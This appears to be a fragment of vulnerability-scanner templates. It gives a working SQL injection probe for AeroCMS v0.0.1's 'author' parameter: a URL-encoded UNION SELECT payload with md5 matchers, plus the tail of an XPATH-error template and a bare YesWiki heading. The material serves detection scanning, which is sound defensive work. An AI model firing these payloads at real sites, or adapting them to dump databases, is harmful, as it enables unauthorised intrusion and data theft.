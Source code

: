 ### Matchers

**Type - word**

- words
  1. XPATH syntax error
  2. : '\ZSL1ZSL'
- condition - and

**Type - status**

- status
  1. 200

---

# Aero CMS v0.0.1 - SQL Injection

## Description

- The `author` parameter from the AeroCMS-v0.0.1 CMS system appears to be vulnerable to SQL injection attacks.The malicious user can dump-steal the database, from this CMS system and he can use it for very malicious purposes.

- severity - high
- tags - aero,cms,sqli,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/author_posts.php?author=admin%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(md5({{num}}),1,1),NULL,NULL,NULL,NULL--%20-&p_id=1
- {{BaseURL}}/cms/author_posts.php?author=admin%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(md5({{num}}),1,1),NULL,NULL,NULL,NULL--%20-&p_id=1

### Matchers

**Type - word**

- part - body
- words
  1. {{md5(num)}}

**Type - status**

- status
  1. 200

---

# YesWiki \<2022-07-07 - SQL Injection
